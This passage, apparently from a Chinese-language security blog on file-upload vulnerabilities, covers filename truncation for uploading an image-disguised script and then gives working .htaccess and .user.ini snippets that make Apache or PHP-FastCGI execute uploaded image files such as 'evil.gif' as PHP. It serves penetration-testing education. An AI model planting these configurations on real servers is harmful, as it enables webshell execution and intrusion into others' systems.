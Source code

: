 截断：
![上传漏洞截断文件名](/img/post/upload_vuln_truncate_picture_name.png)
上传成功：
![上传漏洞成功将jpg图片马上传为asp脚本](/img/post/upload_vuln_upload_success.png)

#### 5. 文件攻击
- .htaccess文件攻击  
Apache设置为AllowOverride All时，通过.htaccess文件调用php解析器去解析一个文件名中只要包含"haha"这个字符串的任意文件，无论扩展名是什么(没有也行)，都以php的方式来解析，.haccess文件代码如下：
```
<FilesMatch "haha">
SetHandler application/x-httpd-php
</FilesMatch>
```
或者如下，上传一个文件名为evil.gif的图片马：
```
<FilesMatch "evil.gif">
SetHandler application/x-httpd-php
</FilesMatch>
```
或者如下，上传一个后缀为png的图片马：
```
<Files *.png>
SetHandler application/x-httpd-php
</Files>
```

- .user.ini文件攻击  
```
只要中间键是以fastcgi运行的php都可以用这个方法，.user.ini能被动态加载，它也有两个配置
项：auto_append_file和auto_prepend_file，只要在.user.ini中添加auto_prepend_file=aa.jpg
这句话，就可以让其他php文件执行前自动包含aa.jpg，和require()类似。
```